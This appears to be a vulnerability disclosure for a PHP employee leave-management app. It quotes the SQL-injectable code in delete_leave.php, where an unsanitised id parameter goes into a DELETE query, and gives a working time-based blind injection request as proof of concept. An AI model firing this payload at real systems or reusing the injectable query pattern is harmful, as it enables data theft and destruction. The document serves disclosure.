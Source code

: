 ### Vulnerability file address

`Employee/delete_leave.php` from line 9,The `$id` parameter is controllable,, and the `$id` is not protected from sql injection, line 10 `$sql = "DELETE From `tblleave` where leaveID ='$id'";` ,line 11 `$result = mysqli_query($conn, $sql);`Line 15 performs a SQL query, causing SQL injection

```php
<?php
include('../inc/topbar.php'); 
if(empty($_SESSION['login_email']))
{   
header("Location: ../Account/login.php"); 
}


$id=$_GET['id'];
$sql = "DELETE From `tblleave` where leaveID ='$id'";
$result = mysqli_query($conn, $sql);
//$row = mysqli_num_rows($result);
if ($result >0){

header("location: leave_history.php");
}
```

### POC

```http
GET /CMS/php/employee_akpoly/Employee/delete_leave.php?id=1' AND 4330=BENCHMARK(5000000,MD5(0x7367734e))-- TaKM HTTP/1.1
Host: 10.0.0.20:82
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://10.0.0.20:82/CMS/php/employee_akpoly/Employee/leave_history.php
Cookie: PHPSESSID=81293i00fqra5g881e77or40t2
Upgrade-Insecure-Requests: 1
```

### Attack results pictures

![image-20250128215357806](https://raw.githubusercontent.com/nixuchuan/imgs/main/202501282153854.png)